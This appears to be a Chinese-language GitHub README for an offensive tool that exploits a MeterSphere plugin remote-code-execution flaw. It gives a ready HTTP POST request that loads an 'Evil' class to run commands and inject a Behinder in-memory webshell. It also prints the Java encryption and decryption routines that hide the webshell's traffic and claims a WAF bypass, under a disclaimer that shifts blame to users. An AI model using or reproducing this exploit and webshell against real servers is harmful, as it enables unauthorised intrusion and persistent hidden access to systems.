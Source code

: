 # MeterSphere-plugin-Backdoor
##  👮🏻‍♀️ 免责声明

由于传播、利用**MeterSphere-plugin-Backdoor**工具提供的而造成的**任何直接或者间接的后果及损失**，均由使用者本人负责，本人**不为此承担任何责任**。

* 支持注入内存马和Bypass WAF

#### 命令执行

![image-20231211142156295](README/image-20231211142156295.png)

#### 注入内存马

* 传入**inject**编码后的**Base64**进行注入冰蝎内存马

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cookie: MS_SESSION_ID=75407ecc-369b-48a7-ae80-d000f0d1b700
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 65

{
  "entry": "org.metersphere.Evil",
  "request": "aW5qZWN0"
}
```

* 冰蝎加密函数

```java
private byte[] Encrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] + 1);
    }
    try {
        java.io.ByteArrayOutputStream o = new java.io.ByteArrayOutputStream();
        java.util.zip.GZIPOutputStream g = new java.util.zip.GZIPOutputStream(o);
        g.write(dt);
        g.close();
        byte[] c = o.toByteArray();
        byte[] ct = new byte[c.length];

        for (int i = 0; i < c.length; i++) {
            ct[i] = (byte) (c[i] + 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}
```

* 冰蝎解密函数

```java
private byte[] Decrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] - 1);
    }
    try {
        java.io.ByteArrayInputStream t = new java.io.ByteArrayInputStream(dt);
        java.util.zip.GZIPInputStream i = new java.util.zip.GZIPInputStream(t, dt.length);
        byte[] c = r(i);
        byte[] ct = new byte[c.length];
        for (int b = 0; b < c.length; b++) {
            ct[b] = (byte) (c[b] - 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}
private byte[] r(java.io.InputStream i) {
    byte[] temp = new byte[1024];
    java.io.ByteArrayOutputStream b = new java.io.ByteArrayOutputStream();
    int n;
    try {
        while((n = i.read(temp)) != -1) {b.write(temp, 0, n);
        }} catch (Exception ignored) {
    }
    return b.toByteArray();
}
```

![image-20231211142834521](README/image-20231211142834521.png)

![image-20231211143212494](README/image-20231211143212494.png)

![image-20231211143224759](README/image-20231211143224759.png)

### 参考

https://github.com/vulhub/vulhub/tree/master/metersphere/plugin-rce

https://github.com/metersphere/metersphere/security/advisories/GHSA-mcwr-j9vm-5g8h
